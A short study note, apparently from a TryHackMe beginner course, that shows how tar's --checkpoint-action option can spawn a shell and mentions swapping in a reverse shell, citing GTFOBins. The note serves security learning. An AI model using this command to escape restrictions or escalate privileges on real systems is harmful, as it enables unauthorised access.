 # Exploiting “tar”

author:: Nathan Acks  
date:: 2021-11-02

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null \
    --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)
